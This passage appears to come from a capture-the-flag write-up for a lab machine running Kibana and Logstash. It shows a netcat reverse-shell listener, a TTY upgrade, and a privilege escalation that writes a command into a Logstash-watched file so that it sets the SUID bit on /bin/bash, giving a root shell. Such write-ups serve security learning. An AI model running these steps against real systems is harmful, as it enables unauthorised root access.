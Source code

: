 ```bash
Connection from 10.10.10.115:34872
python -c "import pty; pty.spawn('/bin/sh')" 
sh-4.2$ script /dev/null -c bash
zsh: suspended  nc -nlvp 3333
❯ stty raw -echo;fg 
sh-4.2$ reset xterm
sh-4.2$ whoami
kibana
sh-4.2$ hostname -I
10.10.10.115 dead:beef::250:56ff:feb9:8fb7 
```

### Root shell via logstash
Now that we are logged in as `kibana`, we can read some more files from `/etc/logstash`:
```bash
sh-4.2$ cat pipelines.yml 
# This file is where you define your pipelines. You can define multiple.
# For more information on multiple pipelines, see the documentation:
#   https://www.elastic.co/guide/en/logstash/current/multiple-pipelines.html

- pipeline.id: main
  path.config: "/etc/logstash/conf.d/*.conf"
  sh-4.2$ cat conf.d/*
filter {
	if [type] == "execute" {
		grok {
			match => { "message" => "Ejecutar\s*comando\s*:\s+%{GREEDYDATA:comando}" }
		}
	}
}
input {
	file {
		path => "/opt/kibana/logstash_*"
		start_position => "beginning"
		sincedb_path => "/dev/null"
		stat_interval => "10 second"
		type => "execute"
		mode => "read"
	}
}
output {
	if [type] == "execute" {
		stdout { codec => json }
		exec {
			command => "%{comando} &"
		}
	}
}
```
From this code we can assume that there is some program reading files from `/opt/kibana/` with the format `logstash_*`. Then, we can try to inject some shell code into a file `logstash_root` and wait the 10s interval to take place:
```bash
sh-4.2$ cd /opt/kibana
sh-4.2$ echo "Ejecutar comando : chmod +s /bin/bash" > logstash_root
sh-4.2$ ls -la /bin/bash
-rwsr-sr-x. 1 root root 964608 oct 30  2018 /bin/bash
```
In order for this attack to work, the filename has to follow the pattern `logstash_*`, and the content must be preceeded by `Ejecutar comando : `. Now that `bash` has the `suid` set, we can obtain the root shell:
```bash
bash-4.2# whoami
root
```